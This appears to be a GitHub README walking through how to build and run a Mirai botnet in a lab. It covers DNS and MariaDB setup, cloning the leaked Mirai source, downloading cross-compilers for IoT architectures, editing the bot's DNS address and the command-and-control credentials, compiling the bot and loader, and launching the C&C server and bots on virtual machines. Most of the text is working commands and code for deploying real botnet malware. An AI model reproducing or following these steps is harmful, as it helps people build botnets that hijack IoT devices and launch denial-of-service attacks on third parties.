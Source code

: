 # Build-a-Mirai-botnet
In this Experiment, I found a way to build a MIRAI botnet.

An installation guide has been given by Mirai's author:
https://github.com/jgamblin/Mirai-Source-Code/blob/master/ForumPost.md

# *Environment*
1. Fedora27 x64 workstaion with over 16G MEM.
2. Network capabilities.
3. VMware-station or vbox.

# *Requirements*
```bash
dnf install git gcc golang ElectricFence mysql mariadb-server mariadb-common bind bind-utils
dnf groupinstall "Development Tools" -y
dnf install gmp-devel -y
```

## Section 1 Setup dns server
### 1-1 Stop Dns server
```bash systemctl stop named
```
### 1-2 Edit /etc/named.conf
```conf
acl "trusted" {
	192.168.241.1; // Self DNS-server ip
};
options {
	listen-on port 53 { any; };
	listen-on-v6 port 53 { any; };
	directory 	"/var/named";
	dump-file 	"/var/named/data/cache_dump.db";
	statistics-file "/var/named/data/named_stats.txt";
	memstatistics-file "/var/named/data/named_mem_stats.txt";
	allow-query     { any; };

	recursion yes;

	dnssec-enable yes;
	dnssec-validation yes;

	managed-keys-directory "/var/named/dynamic";

	pid-file "/run/named/named.pid";
	session-keyfile "/run/named/session.key";

	/* https://fedoraproject.org/wiki/Changes/CryptoPolicy */
	include "/etc/crypto-policies/back-ends/bind.config";
};

logging {
        channel default_debug {
                file "data/named.run";
                severity dynamic;
        };
};

zone "." IN {
	type hint;
	file "named.ca";
};

include "/etc/named.rfc1912.zones";
include "/etc/named.root.key";

```
### 1-3 Edit /etc/named.rfc1912.zones
```conf
zone "changeme.com" IN {
	type master;
	file "changeme.com";
	allow-update { none; };
};
```
### 1-4 Restart named
```bash
systemctl start named
```

## Section 2 Setup mariadb-server mirai databases
### 2-1 Create mysql root password
```bash
mysqladmin -u root password password
```
### 2-2 Run ./scripts/db.sql
```bash
cat ./scripts/db.sql | mysql -uroot -p
```
### 2-3 Add cnc login account
```mysql
INSERT INTO users VALUES (NULL, 'mirai-user', 'mirai-pass', 0, 0, 0, 0, -1, 1, 30, '');
```

## Section 3 Compile Mirai code
### 3-1 Download the Mirai code
```bash
git clone https://github.com/jgamblin/Mirai-Source-Code.git

wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2

tar -jxf cross-compiler-armv4l.tar.bz2
tar -jxf cross-compiler-i586.tar.bz2
tar -jxf cross-compiler-m68k.tar.bz2
tar -jxf cross-compiler-mips.tar.bz2
tar -jxf cross-compiler-mipsel.tar.bz2
tar -jxf cross-compiler-powerpc.tar.bz2
tar -jxf cross-compiler-sh4.tar.bz2
tar -jxf cross-compiler-sparc.tar.bz2
tar -jxf cross-compiler-armv6l.tar.bz2

rm *.tar.bz2

mv cross-compiler-armv4l armv4l
mv cross-compiler-i586 i586
mv cross-compiler-m68k m68k
mv cross-compiler-mips mips
mv cross-compiler-mipsel mipsel
mv cross-compiler-powerpc powerpc
mv cross-compiler-sh4 sh4
mv cross-compiler-sparc sparc
mv cross-compiler-armv6l armv6l
```
### 3-2 Make go home DIR
```bash
mkdir ~/go
```
### 3-3 Adding xcompile path in .bashrc
```bash
export PATH=$PATH:/etc/xcompile/armv4l/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
export PATH=$PATH:/etc/xcompile/i586/bin
export PATH=$PATH:/etc/xcompile/m68k/bin
export PATH=$PATH:/etc/xcompile/mips/bin
export PATH=$PATH:/etc/xcompile/mipsel/bin
export PATH=$PATH:/etc/xcompile/powerpc/bin
export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
export PATH=$PATH:/etc/xcompile/sh4/bin
export PATH=$PATH:/etc/xcompile/sparc/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
export PATH=$PATH:/usr/local/go/bin
export GOPATH=$HOME/go
```
*source .bashrc*
```bash
source ~/.bashrc
```
### 3-4 Install GoLang Drivers
```bash
go get github.com/go-sql-driver/mysql
go get github.com/mattn/go-shellword
```
### 3-5 Edit Mirai code
*Edit ./mirai/bot/resolv.c DNS server ip*
```c
struct resolv_entries *resolv_lookup(char *domain)
{
    /*
       Missing code ...
     */
    util_zero(&addr, sizeof (struct sockaddr_in));
    addr.sin_family = AF_INET;
    addr.sin_addr.s_addr = INET_ADDR(192,168,241,1); //Change here
    addr.sin_port = htons(53);

    /*
       Missing code ...
     */
}

```
*Edit ./mirai/cnc/main.go*
```go
const DatabaseAddr string   = "127.0.0.1"
const DatabaseUser string   = "root"
const DatabasePass string   = "password" //Change here
const DatabaseTable string  = "mirai"
```
*Edit ./mirai/cnc/admin.go*
```go
headerb, err := ioutil.ReadFile("/root/Mirai_Code/mirai/prompt.txt") //Change here
```
### 3-6 Compile
```bash
cd ./mirai
./build.sh debug telnet
./build.sh release telnet
cd ../loader
./build.sh
```

## Section 4 Run Mirai Net
### 4-1 Run ./mirai/debug/cnc as root on PC:192.168.241.1
```bash
./mirai/debug/cnc
```
### 4-2 Telnet cnc
```bash
telnet 127.0.0.1
```
### 4-3 Run ./mirai/debug/mirai.dbg as root on VM-PCs
*VM-PC1:192.168.241.108*

*VM-PC2:192.168.241.109*

*VM-PC3:192.168.241.110*

